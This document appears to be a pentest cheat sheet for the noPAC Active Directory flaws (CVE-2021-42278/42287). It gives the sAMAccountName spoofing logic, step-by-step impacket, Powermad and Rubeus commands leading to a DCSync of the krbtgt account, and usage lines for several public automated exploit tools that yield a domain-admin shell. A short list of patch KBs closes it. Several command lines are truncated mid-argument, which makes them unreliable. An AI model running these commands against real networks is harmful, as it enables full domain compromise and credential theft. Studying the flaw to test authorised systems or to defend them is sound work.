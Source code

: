 # noPAC samAccountName spoofing CVE-2021-42278 and CVE-2021-42287

### During S4U2Self, the KDC will try to append a '$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a ST to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.

## Requirements:

 - MachineAccountQuota > 0

## Check for exploitation

### 1) Check the MachineAccountQuota of the account

 - crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost StandIn.exe --object ms-DS-MachineAccountQuota=*

### 2) Check if the DC is vulnerable

 - crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac

## Exploitation

#### 1) Create a computer account

 - impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'PASS'

 - powermad@windows> . .\Powermad.ps1

 - powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText
 
 - powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password
 
 - sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer

#### 2) Clear the controlled machine account "servicePrincipalName" attribute

 - impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$'

 - powershell@windows> . .\Powerview.ps1

 - powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain

#### 3) (CVE-2021-42278) Change the controlled machine account sAMAccountName to a Domain Controller's name without the trailing $

 - impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name

 - powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer

#### 4) Request a TGT for the controlled machine account

 - impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'

 - cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword

#### 5) Reset the controlled machine account sAMAccountName to its old value

 - impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$'

 - powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer"

#### 6) (CVE-2021-42287) Request a service ticket with S4U2self by presenting the TGT obtained before

 - impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate

 - cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/

#### 7) DCSync

 - KRB5CCNAME='DomainAdmin.ccache'
 
 - secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local'@'DomainController.domain.local'

## Automated Exploitation

#### 1) https://github.com/cube0x0/noPac - Windows

 - noPac.exe scan -domain htb.local -user user -pass 'password123'

 - noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local
 
 - noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local 

#### 2) https://github.com/Ridter/noPac - Linux

 - python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0'

#### 3) https://github.com/safebuffer/sam-the-admin

 - python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell

#### 4) https://github.com/ly4k/Pachine

 - $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'

 - $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate
 
 - $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache

 - $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'


# MITIGATIONS

### 1) KB5007247 - Windows Server 2012 R2

### 2) KB5008601 - Windows Server 2016

### 3) KB5008602 - Windows Server 2019

### 4) KB5007205 - Windows Server 2022

### 5) KB5008102

### 6) KB5008380


